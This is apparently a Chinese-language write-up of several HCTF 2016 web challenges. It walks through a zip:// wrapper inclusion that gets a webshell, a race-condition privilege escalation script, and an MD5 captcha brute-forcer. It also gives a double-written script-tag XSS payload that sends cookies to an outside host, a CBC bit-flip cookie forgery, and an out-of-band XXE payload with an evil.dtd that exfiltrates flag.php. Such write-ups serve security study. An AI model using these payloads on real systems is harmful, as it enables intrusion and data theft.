 ##兵者多诡
key: 利用zip://test.zip%23123/1.php（phar://test.zip/123/1.php）伪协议处理包含的后缀名和上传后缀名不同的问题
打开url很简单的一个页面，随便上传一个图片，发现必须上传png而且大小小于10k
观察url发现有一个fp=upload, 猜想这个可能是文件包含 ,用php://filter试了下可以，把源码下载下来
成功上传文件后有一个点此查看可以查看图片路径
看了下源码
if(!(include($fp.'.php')))

$imagekey = create_imagekey();
move_uploaded_file($name,"uploads/$imagekey.png");
这两个地方比较重要，可以发现包含的文件后缀名必须是php（00截断只能在php5.3之前能用，之后的版本%00会转成\0而不是null），上传后的文件后缀名必须是png。所以用zip伪协议，先上传一个zip文件为png后缀名，然后用zip文件包含即可
上传了一个zip中有1.php为写的马，然后访问
http://192.168.50.128/home.php?fp=zip://uploads/c93a97d38d89220ee1884c5a2ec29a1dd0381158.png#1
getshell


##跑的比香港记者还快
key: 条件竞争, .git中的README.md
打开网页发现有一个注册，一个登陆页面，随便注册个账号进去发现是权限不够
试了下有.git泄露，但是内容被删了（其实使用wvs跑的。）
想到.git一般有README.md，打开

- 2016.11.11
完成登陆功能，登陆之后在session将用户名和用户等级放到会话信息里面。
判断sessioin['level']是否能在index.php查看管理员才能看到的**东西**。
XD

- 2016.11.10
老板说注册成功的用户不能是管理员，我再写多一句把权限降为普通用户好啰。

- 2016.10 
我把注册功能写好了

先注册后提权，然后在登录后查看权限是否够，那么在注册后至提权前有一段时期账号是有管理员权限的，因此想到利用条件竞争提权，多个线程同时操作mysql，只要在降权前访问index.php就可以得到内容了，写个python跑一下
（如果这里是白名单的话就不存在竞争了- -即判断权限==admin才让访问）
（但是从题目上看，是admin先已经输入数据库了，然后普通用户再特殊设置的level关键字，说明admin是没有level的，所以可以猜测出网页的验证方式肯定是黑名单，即权限==普通用户的模式）
（题目名称其实也有提示是条件竞争）

# python3 code
import requests, re, random, string
from threading import Thread

url1 = 'http://127.0.0.1:8888/register.php'
url2 = 'http://127.0.0.1:8888/login.php'
url3 = 'http://127.0.0.1:8888/index.php'

def register(mes):
    requests.post(url = url1, data = mes)

def login(mes):
    sess = requests.session()
    sess.post(url = url2, data = mes)
    r = sess.get(url = url3)
    content = r.text
    content = re.findall(r'hctf', r.text, re.DOTALL)
    if len(content)>0:
        print("[*]success: message:",r.text)
    else :
        print("[x]fail")

def start():
    while True:
        username = "simon" + ''.join(random.choice(string.ascii_letters) for i in range(5))
        password = '123'
        mes = {"username": username, "password":password,'gogogo': '苟!'}
        t1 = Thread(target=register, args = (mes, ))
        t2 = Thread(target=login, args=(mes,))

        t1.start()
        t2.start()

        t1.join()
        t2.join()

if __name__ == "__main__":
    start()


##guestbook
key: xss绕过，MD5验证码爆破
打开页面一个留言板和MD5的验证码
对这种验证码直接写个小脚本爆破一下就行，直接全用数字了，反正只验证前4位
import hashlib
aim = "ebce"
captcha = 0

while (captcha < 100000000000):
    m1 = hashlib.md5()
    m1.update(str(captcha).encode())
    if (m1.hexdigest()[:4] == aim):
        print(str(captcha) + ":" + m1.hexdigest())
        break
    captcha += 1

考虑到留言板会插入留言到数据库，所以直接burp抓个验证码正确的包方便调试
（抓了包之后就不要再进入主页了，这样验证码不会刷新）
把留言改成<script>window.open("http://192.168.50.128/cookie.php?cookie="+escape(document.cookie));</script>，发现script被删了，双写script发现可以
<scrscriptipt>window.open("http://192.168.50.128/cookie.php?cookie="%2bescape(document.cookie));</scscriptript>
然后等admin访问
得到cookie：admin%3Dhctf2o16com30nag0gog0
和页面http://127.0.0.1:8888/admin_lorexxar.php
然后带着cookie访问即可，得到flag


##Secret Area


## 大图书馆的管理员
key: .git泄露的，CBC字节翻转获得管理员权限，上传后xxe注入
大图书馆两道题都可以用这个方法通解
先是大图书馆第一题git泄露得到源码，发现在manager.php中存在上传页面
但是必须要session['username']==='admin'
第一题因为知道密钥为23333，可以直接加密admin获得对应的cookie直接cookie欺骗获得管理员权限进入manager.php
第二题不知道密钥，查看加密的方式，发现是rijndael-128，即128bit(16字节)的CBC加密
每16个字节分为一个块，然后每个块与上一个块异或，第一个块和init_vactor异或
因为username不会超过16字节，所以只用修改init_vactor就可以直接修改username了
先注册一个admins的账号，得到cookie，cookie中包含了init_vactor和admins对应密文，总共32字节对应两个块
因为解密函数里面有删除最后的\0, 那么只要构造一个密文最后解密出来为admin\0就可以额获得admin的明文。（也可以注册个admix然后暴力枚举让x等于n的值，然后直接修改密文获得admin的密文）
只要加密算法里面存在cbc的异或运算，那么就可以这样来构造
admins 对应的第六位加密应该是 ord(s)^initvactor，那么只要让initvactor ^= ord(s)
因为异或运算有交换和结合律，加密就变成了 ord(s)^initvactor^ord(s) = 0 ^ initvactor,对应的明文就变成了chr(0) 
所以对应的算法
$string = urlsafe_b64decode('Zp8jLzTblnXAJd2sFKTAvdmSV3JeuaoT2zpe8Pjogyc');
$string[5] = chr(ord($string[5])^ord('s')^ord("\0")); //修改init_vactor第6位也就是admins中的s
$string = urlsafe_b64encode($string);
print_r($string);

虽然也可以用爆破，但是cbc字节翻转是这个原理
爆破：
$test = urlsafe_b64decode('Zp8jLzTblnXAJd2sFKTAvdmSV3JeuaoT2zpe8Pjogyc');
for ($i = 0;$i<127; $i++){
	$string = $test;
	$string[5] = chr($i);
	$string = urlsafe_b64encode($string);
	$tmp = decrypt($string);
	if ($tmp === 'admin'){
		print_r((string)$i.":".$tmp.":".$string."<br>");
	}
得到管理员权限进入manager.php
有一个上传页面，查看upload.php
//upload
$files = isset($_FILES['file']) ? $_FILES['file'] : exit();
if($files['type']!=="application/epub+zip") {
  exit("Not Allow type!");
}
//extract
$file = new ZipArchive;
$epub_name = $files['tmp_name'];
$extracted_path = 'uploads/'.basename($files['name'],".epub")."/";
if ($file->open($epub_name) === TRUE){
  $file->extractTo($extracted_path);
  $file->close();
}
//xmlparse
libxml_disable_entity_loader(false);
$container_info = simplexml_load_file($extracted_path."META-INF/container.xml", 'SimpleXMLElement', LIBXML_NOENT);
$source_file = $container_info->rootfiles->rootfile["full-path"];

限制了上传类型application/epub+zip，burp随便抓包改下
上传后会解压然后simplexml_load_file，上面把实体参数都开了很明显就是提示XXE注入
构造一个META-INF/container.xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=flag.php">（注意这里的相对路径也是相对根目录的）
    <!ENTITY % dtd SYSTEM "http://192.168.50.128/evil.dtd">
    %dtd;
    %send;
]>
<container​ ​version​=​"1.0"​ ​xmlns​=​"urn:oasis:names:tc:opendocument:xmlns:container">    ​
	<rootfiles>       ​
		<rootfile​ ​full-path​=​"content.opf"​ ​media-type​=​"application/oebps-package+xml"​/>      ​
	</rootfiles> 
</container> 
压缩成一个zip。在服务器上放一个evil.dtd:
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.50.128/content.php?content=%file;'>">
%payload;
然后上传zip，查看服务器日志
192.168.50.1 - - [07/Dec/2016:00:31:15 +0800] "GET /content.php?content=PD9waHANCiRmbGFnID0gImhjdGZ7U2VyZW5hX2lzX3RoZV9sZWFkaW5nX3JvbGV9IjsNCg== HTTP/1.0" 404 289 "-" "-"
base64解码
<?php
$flag = "hctf{Serena_is_the_leading_role}";


